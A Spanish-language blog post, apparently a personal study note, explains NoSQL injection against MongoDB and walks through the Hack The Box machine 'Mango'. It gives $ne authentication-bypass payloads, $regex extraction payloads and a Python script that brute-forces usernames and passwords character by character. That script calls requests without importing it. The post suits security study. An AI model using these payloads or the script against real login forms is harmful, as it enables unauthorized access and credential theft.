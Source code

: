 ```yaml
---
layout: post
author: Raúl Riesco
title: Inyecciones NoSQL (MongoDB) y extracción de información
---
```


## Explicación teórica

En alguna ocasión, y muy de refilón, había tenido que lidiar con bases de datos NoSQL para alguna cosa muy sencilla y puntual. Sin embargo, en cuestiones de seguridad, nunca me había topado con ellas.

No voy a explicar aquí lo que son las archiconocidas inyecciones SQL porque esto sólo pretende ser una nota personal y/o idea para una futura práctica, además de haber documentación a paladas en Internet para enterarse.

La idea principal es que poniendo el ejemplo de un formulario de login, una vez introducidos usuario y contraseña, estos se verificarán contra la BBDD NoSQL (en nuestro caso MongoDB) tal y como podría suceder con una BBDD SQL. La diferencia obvia entre una inyección SQL y una NoSQL es la gramática y la sintaxis. 

Puesto que las BBDD NoSQL no tienen un lenguaje estandarizado, haremos uso de algunos operadores para extraer información. Por ejemplo, en el caso que se comentaba de un formulario de login, podemos utilizar operadores como `$gt` (grater than, mayor que) o `$ne` (not equal, no igual a). Así las cosas, en el ejemplo del login que comentábamos, suponiendo que la petición se realiza por POST y con DATA una forma de hacer un bypass de la autenticación sería:

```http
username[$ne]=invent&password[$ne]=invent
```
Si el usuario/password no es `ìnvent` esta condición se cumple y habremos realizado el bypass de la autenticación.

De la misma forma, usando estos operadores, así como otro dedicado a las expresiones regulares: `$regex`, podremos ir extrayendo información de la base de datos. Vamos a demostrar que podemos obtener tanto los usuarios en primera instancia, como el password a partir de ellos:

```http
username[$ne]=invent&password[$regex]=r.*
```

Con esta sentencia, si el nombre de usuario no es `invent` y, además, el password cumple la expresión regular (que el valor de password empiece por r y vaya seguido de cualquier número y tipo de carácteres), tendremos una respuesta positiva de algún modo.

La idea sería ir iterando a través de todas las letras y carácteres del alfabeto con el fin de ir ensamblando los valores que nos den respuesta positiva y que, finalmente, formarán el usuario/password que buscamos.

## Caso práctico

### Authentication bypass

Veamos un caso práctico con la máquina Mango de Hack the box. 

Tenemos una pantalla de login tal que así:

![](../img/nosqli/mango_login.png)

Y el intento de login infructuoso, nos da como resultado una respuesta `200 OK`

![](../img/nosqli/1.png)

![](../img/nosqli/2.png)

Sin embargo, utilizando el primer payload que hemos visto, obtenemos un `302 Found`, que en el navegador comprobamos que se corresponde con una respuesta positiva de la base de datos y, por ende, en auténtico bypass de la autenticación:

![](../img/nosqli/3.png)


### Extracción de usuarios y contraseñas

Para este caso, vamos a usar un script disponible en [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-urlencoded-body) pero ligeramente modificado para nuestras necesidades:

```python
import urllib3
import string
import urllib
import re
import time
urllib3.disable_warnings()

username=""
password=""
u="http://laquesea/"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
     for c in string.printable: #Si excluimos la a de todas las iteraciones y el user contiene la a... no lo sacará
            payload='username=%s&password[$regex]=^%s&login=login' %(username,re.escape(password + c))
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)

            if r.status_code == 302:
               print("Found one more char : %s" % (password+c))
               password += c
```
Puesto que primero queremos extraer los usuarios, utilizaremos una inyección que lo consiga mediante `$regex` en el username y un `$ne` que se cumpla en el campo password:

![](../img/nosqli/8.png)

Y vemos que el script funciona bien:

![](../img/nosqli/9.png)

Puede que haya más usuarios, ahora lanzaremos el script de la misma forma pero excluyendo usuarios que empiecen por `a` (sino volvería a salir `admin`):

![](../img/nosqli/10.png)

![](../img/nosqli/11.png)

Claro, el problema es que si excluimos la `a` de la iteración, si el nuevo nombre de usuario la contiene, no la encontrará y no podrá seguir extrayendo el username. Sabiendo ya que el nuevo usuario empieza por `m`, actuamos en consecuencia:

![](../img/nosqli/12.png)

![](../img/nosqli/13.png)

Teniendo ya los nombres de usuario, vamos a obtener sus contraseñas haciendo uso de ellos, utilizando esta vez la  inyección el el campo password:

![](../img/nosqli/14.png)

![](../img/nosqli/15.png)

![](../img/nosqli/16.png)

![](../img/nosqli/17.png)

![](../img/nosqli/18.png)
Y esta es una explicación básica, sencilla y somera de las nociones de inyecciones NoSQL.

También existe la opción, un poco menos cómoda pero más sencilla, de realizar este proceso con [Burp Suite](https://rioasmara.com/2020/08/13/nosql-injection-and-bruteforce/)

